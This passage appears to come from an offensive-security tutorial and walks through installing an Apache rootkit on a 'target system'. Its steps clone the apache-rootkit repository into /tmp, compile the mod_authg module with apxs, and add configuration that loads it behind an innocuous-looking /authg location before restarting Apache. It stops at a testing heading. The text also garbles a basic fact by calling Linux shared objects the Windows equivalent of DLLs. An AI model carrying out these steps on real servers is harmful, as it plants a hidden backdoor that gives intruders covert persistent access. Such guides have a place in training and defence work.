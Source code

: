 1. The first step in this process involves installing the Apache2 development kit, this can be done by running the following command on the target system.

        sudo apt-get install apache2-dev

    We require the Apache2 development kit in order to compile the module source code into a shared object.

    Shared objects are the Windows equivalent of DLLs, they are libraries that are loaded by programs when they are started. They are typically used by programs to extend functionality.

1. Before we clone the apache-rootkit repository, we will need to navigate to the temporary directory on the target system. This can be done by running the following command:

        cd /tmp

1. The next step will involve cloning the apache-rootkit repository on to the target system, this can be done by running the following command:

        git clone https://github.com/ChristianPapathanasiou/apache-rootkit.git

1. After cloning the repository you will need to navigate to the “apache-rootkit” directory:

        cd apache-rootkit

1. We can now compile the module by running the following command:

        apxs -c -i mod_authg.c

    As shown in the following screenshot, this will compile the module and copy over the module to the /usr/lib/apache2/modules directory.

    ![apxs output](apxs-output.png "apxs output")

1. The next step will involve loading the “mod_authg.so” module in the Apache2 configuration file, this can be done by running the following command:

        vim /etc/apache2/apache2.conf

1. After which, you will need to add the following configuration at the top of the file to load the module correctly:

    {{< file "/etc/apache2/apache2.conf" >}}
LoadModule authg_module /usr/lib/apache2/modules/mod_authg.so
<Location /authg>
SetHandler authg
</Location>
{{< /file >}}

1. After adding the aforementioned configuration, you will need to save the file.

1. After loading the “mod_authg.so” module, you will need to restart the apache2 service, this can be done by running the following command:

        sudo systemctl restart apache2

    If you have followed the steps correctly, you shouldn’t receive any errors from systemd.

### Testing apache-rootkit
